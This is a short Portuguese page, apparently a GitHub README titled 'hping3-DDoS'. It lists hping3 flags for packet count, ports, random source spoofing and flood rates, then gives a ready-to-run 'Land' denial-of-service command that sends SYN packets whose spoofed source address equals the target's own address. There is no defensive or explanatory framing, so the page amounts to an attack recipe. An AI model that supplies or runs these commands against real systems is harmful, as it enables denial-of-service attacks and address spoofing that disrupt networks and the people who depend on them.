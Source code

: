 # hping3-DDoS

# Commands Importat

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```


## Atack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80
-k -a 192.168.1.110 192.168.1.110
```